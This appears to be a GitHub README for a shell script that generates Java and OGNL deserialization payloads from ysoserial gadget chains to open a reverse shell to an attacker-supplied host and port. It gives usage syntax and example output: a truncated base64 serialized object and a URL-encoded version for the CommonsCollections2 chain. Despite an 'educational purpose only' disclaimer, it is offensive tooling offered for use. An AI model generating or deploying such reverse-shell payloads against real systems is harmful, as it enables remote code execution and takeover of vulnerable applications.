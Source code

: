 # Java/OGNL Deserialization Reverse Shell Payload Generator
*This mini tool is for educational and research purpose only.*  
*I am not responsible for any improper use.*

The goal is to provide a different way to launch a reverse shell leveraging
unsecure payload deserialization.  
You need to identify the payload for the deserialization library from the 
[ysoserial page](https://github.com/frohoff/ysoserial#usage).  
  
Once done that you can launch simply the script :
```
$ java_drs.sh <ysoserial payload> <lhost> <lport> [url_enc_stream]
```

The script `java_drs.sh` will generate 1 Java and 2 OGNL payloads which 
hopefully will give you a reverse shell.
  
#### Note 1
**The output is supporting also OGNL format and can be urlencoded as a byte stream.**  
#### Note 2
You still need to insert the code generated into the PoC exploit code.  
This script was done to speedup the process of payload generation which can be 
complex and error likely.
#### Note 3
OGNL code hasn't been tested. Should work btw on vulnerable environments.

## Example
```
$ ./java_drs.sh CommonsCollections2 172.17.0.2 4444

=================================== JAVA CODE ===================================
String gdavi="rO0ABXNyABdqYXZhLnV0aWwuUHJpb3JpdHlRdWV1ZZTaMLT7P4KxAwACSQAEc2l6ZUwACmNvbXBhcmF0b3J0ABZMamF2YS91dGlsL0NvbXBhcmF0b3I7eHAAAAACc3IAQm9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9uczQuY29tcGFyYXRvcnMuVHJhbnNmb3JtaW5nQ29tcGFyYXRvci/5hPArsQjMAgACTAAJZGVjb3JhdGVkcQB+AAFMAAt0cmFuc2Zvcm1lcnQALUxvcmcvYXBhY2h...
```
```
$ ./java_drs.sh CommonsCollections2 172.17.0.2 4444 url_enc_stream

=================================== JAVA CODE ===================================
%53%74%72%69%6e%67%20%67%64%61%76%69%3d%22%72%4f%30%41%42%58%4e%79%41%42%64%71%59%58%5a%68%4c%6e%56%30%61%57%77%75%55%48%4a%70%62%33%4a%70%64%48%6c%52%64%57%56%31%5a%5a%54%61%4d%4c%54%37%50%34%4b%78%41%77%41%43%53%51%41%45%63%32%6c%36%5a%55%77%41%43%6d%4e%76%62%58%42%68%63%6d%46%30%62%33%4a%30%...
```